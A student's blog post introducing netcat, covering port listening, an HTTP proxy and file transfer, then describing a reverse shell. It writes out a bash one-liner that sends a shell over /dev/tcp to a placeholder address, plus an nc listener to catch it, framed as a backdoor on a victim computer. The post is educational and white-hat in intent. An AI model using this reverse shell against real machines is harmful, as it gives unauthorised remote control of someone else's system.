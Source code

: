 ```yaml
---
layout: post
title:  "Netcat: Woah"
date:   2017-02-24 09:43:21 -0500
---
```



File this one under semi-relevant but super neat. My first exposure to netcat was through an offhand comment made by our instructor Steven, in which he said it was pretty crazy. If i’ve learned anything about Steven, with his background in network security, it’s to pay attention to the things he mentions as cool, because they probably are. This was no exception. In this blog post, I’ll cover some of the basics of netcat, as well as some neat tricks you can do with it. 

	Type “man nc” into your terminal and even the first couple of lines are intriguing. Not even the first couple of lines in your iPhone’s manual were intriguing, so this is already a good start:
	“nc -- arbitrary TCP  and UDP connections and listens… the nc (or netcat) utility is used for just about anything under the sun involving TCP or UDP.”

	Having learned all about how the internet works earlier this week we, we were exposed to TCP and UDP as part of the transport layer in the internet protocol suite. Simply put, these protocols allow for the transference of data via hosts communicating by an IP network. As such, netcat was originally conceived as a network utility for reading and writing to network connections, a general-purpose networking tool. 

Some basic applications of nc include:

Checking if ports on the network are open
To listen for connections on TCP port 8080. : nc -l 8080
Creating an HTTP proxy server:
 To create a proxy server on localhost port 8888. : nc -l --proxy-type http localhost 8888
Encrypted file transfer: 
When you SSH in, add -L 31000:127.0.0.1:31000
On the remote: nc -lvnp 31000 127.0.0.1 > file
On the local: nc -v -w 2 127.0.0.1 31000 < file

	Clearly this is an extremely versatile and useful tool for diagnosing problems on a network. However beyond that, nc is also a favorite tool of hackers, known to some as  “the swiss army knife of hacking tools”. From the examples above, even successfully sending an encrypted file has obvious hacking applications. However, in order for the file to be opened on the remote, someone needs to be on the receiving end typing in the command. Or do they? 
	
	![](http://giphy.com/gifs/rick-and-morty-1107IdxsMU7I6khttp://)
	
	
	
	One tricky thing that nc can be used to do is to create a reverse shell to remotely execute commands over any open port using netcat or BASH. A reverse shell is a type of shell in which another ‘attacking’ machine can execute commands. You can create one with a single line of code : bash -i >& /dev/tcp/youripaddress/1337 0>&1
Next, we create a backdoor with our trusty friend netcat: nc -l 1337    

And voila, we’re done(more or less). You can use this to make the victim computer do funny things like speaking out loud: “say [thing]”, and beyond that more malicious applications are pretty apparent. 

	So, being a student of code and its legal applications, why would I want to learn such a thing? Online, there’s a type of hacker called a “white hat,” someone who uses hacker’s tools for educational and non-malicious purposes. If I am to contribute to helping preserve and develop online infrastructure, a deep understanding of all of the tools at our disposal is crucial, regardless of how fun they are.



Sources: 
https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf  
https://en.wikipedia.org/wiki/Netcat (yes I’m listing Wikipedia as a source, just bein’ honest!) 
http://www.thegeekstuff.com/2012/04/nc-command-examples/?utm_source=feedburner
https://null-byte.wonderhowto.com/how-to/create-reverse-shell-remotely-execute-root-commands-over-any-open-port-using-netcat-bash-0132658/

